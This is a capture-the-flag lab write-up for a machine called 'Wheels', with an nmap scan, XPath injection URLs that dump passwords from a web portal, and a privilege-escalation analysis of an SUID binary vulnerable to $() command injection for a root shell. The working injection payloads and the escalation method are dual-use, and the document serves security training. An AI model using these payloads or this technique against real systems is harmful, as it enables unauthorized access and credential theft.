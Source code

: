 # Wheels

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.202
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 11:18 +08
Nmap scan report for 192.168.157.202
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can proxy traffic through Burpsuite.&#x20;

### Web Enum --> XPath Injection

The website is for a car repair service:

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

There's an employee portal and a register page. When I try to register a user and access the portal, we are denied access. I tried to brute force the admin credentials, but they don't work.

At the bottom of the page, we can find an email:

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

I tried to register an `administrator` user with this email, and it worked in showing us the Employee Portal.&#x20;

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

If we submit a query, we are returned information in this manner:

<pre class="language-markup"><code class="lang-markup"><strong>&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
</strong>	&#x3C;td>1&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>bob&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>2&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>alice&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>3&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>john&#x3C;/b>&#x3C;/td>

&#x3C;/tr>
</code></pre>

I tried to append a `'` character to the query, and received an XML error:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

We can try XPath injection since it seems to load `xpath()`. I tested all forms of XPath Injection and tried to dump passwords, and eventually this payload worked:

```
http://192.168.157.202/portal.php?work=car%27)]%20|%20//password%00&action=search
```

<figure><img src="../../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

I also found some users when testing payloads:

```
http://192.168.157.202/portal.php?work=car%27)%20or%201=1%20or%20(%27&action=search
```

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

The first password works for `bob`:

<figure><img src="../../../.gitbook/assets/image (82) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Arbitrary Read

I searched for SUID binaries and the first result stood out:

{% code overflow="wrap" %}
```
bob@wheels:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get-list

bob@wheels:~$ file /opt/get-list
/opt/get-list: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a037b8d92b88ad94e965feeeddd13c03f924f0a7, for GNU/Linux 3.2.0, not stripped

bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: employees
Opening File....

bob
alice
john
dan
alex
selene
```
{% endcode %}

I used `ltrace` to see what calls were being made.&#x20;

```
bob@wheels:~$ ltrace /opt/get-list
puts("\n"

)                                                             = 2
printf("Which List do you want to open? "...)                          = 55
fgets(Which List do you want to open? [customers/employees]: customers
"customers\n", 100, 0x7f394d6c3980)                              = 0x7ffeb9de0730
strchr("customers\n", ';')                                             = nil
strchr("customers\n", '|')                                             = nil
strchr("customers\n", '&')                                             = nil
strstr("customers\n", "customers")                                     = "customers\n"
puts("Opening File....\n"Opening File....

)                                             = 18
snprintf("/bin/cat /root/details/customers"..., 200, "/bin/cat /root/details/%s", "customers\n") = 33
open("/dev/null", 1025, 027167403201)                                  = 3
dup(2, 0x5597d7042088, 1025, 0)                                        = 4
dup2(3, 2)                                                             = 2
geteuid()                                                              = 1000
setuid(1000)                                                           = 0
system("/bin/cat /root/details/customers"... <no return ...>
```

It uses seems that our string is directly passed into a `cat` command. There's also a check for special characters before executing. This doesn't protect against subshells using `$()`, and it only checks for whether `customers` or `employees` are substrings within the string we submit.

This is easily exploitable for a `root` shell:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>
